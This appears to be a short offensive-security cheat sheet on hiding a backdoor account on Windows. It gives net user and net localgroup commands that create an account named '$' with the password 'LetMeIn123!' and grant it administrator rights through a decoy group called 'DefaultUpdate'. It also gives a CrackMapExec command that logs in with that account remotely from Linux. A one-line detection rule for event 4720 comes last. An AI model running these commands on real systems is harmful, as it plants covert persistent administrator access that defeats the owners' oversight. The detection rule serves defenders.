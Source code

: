 ## add hidden account
1. https://twitter.com/Ben0xA/status/1301550957516541952
2. https://www.trustedsec.com/events/webinar-deception-and-discovery-how-attackers-hide-backdoor-accounts-and-how-defenders-find-them/?utm_campaign=Webinar%20-%20BD%20Deception%20%26%20Discovery&utm_content=170008881&utm_medium=social&utm_source=twitter&hss_channel=tw-403811306
```
C:\WINDOWS\system32> net user $ LetMeIn123! /add /active:yes

C:\WINDOWS\system32> net user
```
Fun fact, you can add anything you want in front of the $ as its exploiting the normal "hidden folder share" method.
```
C:\WINDOWS\system32> net user test$ LetMeIn123! /add /active:yes

C:\WINDOWS\system32> net user
```


### Add to local Administrators
```
C:\WINDOWS\system32> net localgroup DefaultUpdate /add

C:\WINDOWS\system32> net localgroup DefaultUpdate $ /add

C:\WINDOWS\system32> net localgroup Administrators DefaultUpdate /add

C:\WINDOWS\system32> net localgroup Administrators
```

### user can be seen in Powershell:
```
PS C:\> get-localuser

PS C:\> wmic useraccount get name
```

## abuse hidden account from Linux:
```
# cme smb -u '$' -p 'LetMeIn123!' --local-auth 172.16.133.130
```
reference: 
1. https://github.com/byt3bl33d3r/CrackMapExec
2. https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference

## Detection: 
```
eventid:4720 and account_name="^.*\$$" (regex)
```
